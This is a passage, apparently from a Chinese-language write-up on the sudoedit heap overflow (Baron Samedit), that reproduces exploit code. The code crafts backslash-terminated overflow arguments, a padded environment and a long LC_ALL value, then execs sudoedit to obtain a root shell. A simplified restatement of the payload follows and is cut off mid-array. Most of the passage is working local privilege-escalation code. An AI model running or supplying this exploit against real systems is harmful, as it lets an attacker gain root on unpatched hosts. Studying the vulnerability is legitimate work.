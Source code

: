 ```bash
    }

    printf(
        "using target: %s ['%s'] (%d, %d, %d, %d)\n", 
        target->target_name,
        target->sudoedit_path,
        target->smash_len_a,
        target->smash_len_b,
        target->null_stomp_len,
        target->lc_all_len
    );

    char *smash_a = calloc(target->smash_len_a + 2, 1);
    char *smash_b = calloc(target->smash_len_b + 2, 1);

    memset(smash_a, 'A', target->smash_len_a);
    memset(smash_b, 'B', target->smash_len_b);

    smash_a[target->smash_len_a] = '\\';
    smash_b[target->smash_len_b] = '\\';

    char *s_argv[]={
        "sudoedit", "-s", smash_a, "\\", smash_b, NULL
    };

    char *s_envp[MAX_ENVP];
    int envp_pos = 0;

    for(int i = 0; i < target->null_stomp_len; i++) {
        s_envp[envp_pos++] = "\\";
    }
    s_envp[envp_pos++] = "X/P0P_SH3LLZ_";

    char *lc_all = calloc(target->lc_all_len + 16, 1);
    strcpy(lc_all, "LC_ALL=C.UTF-8@");
    memset(lc_all+15, 'C', target->lc_all_len);

    s_envp[envp_pos++] = lc_all;
    s_envp[envp_pos++] = NULL;

    printf("** pray for your rootshell.. **\n");

    execve(target->sudoedit_path, s_argv, s_envp);
    return 0;
}
```

看起来有点复杂，先根据编译后sudo-hax-me-a-sandwich的运行内存还原出最基本的execve代码：

```c
#include<stdio.h>
#include<unistd.h>
int main(){
    char *sh="/usr/bin/sudoedit";
    char* argv[]={"sudoedit","-s",
                "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\\",
                "\\","BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB\\",NULL};
    char* envp[]={"\\","\\","\\","\\","\\","\\","\\","\\","\\","\\",
                "\\","\\","\\","\\","\\","\\","\\","\\","\\","\\",
                "\\","\\","\\","\\","\\","\\","\\","\\","\\","\\",
                "\\","\\","\\","\\","\\","\\","\\","\\","\\","\\",
                "\\","\\","\\","\\","\\","\\","\\","\\","\\","\\",
                "\\","\\","\\","\\","\\","\\","\\","\\","\\","\\",
```
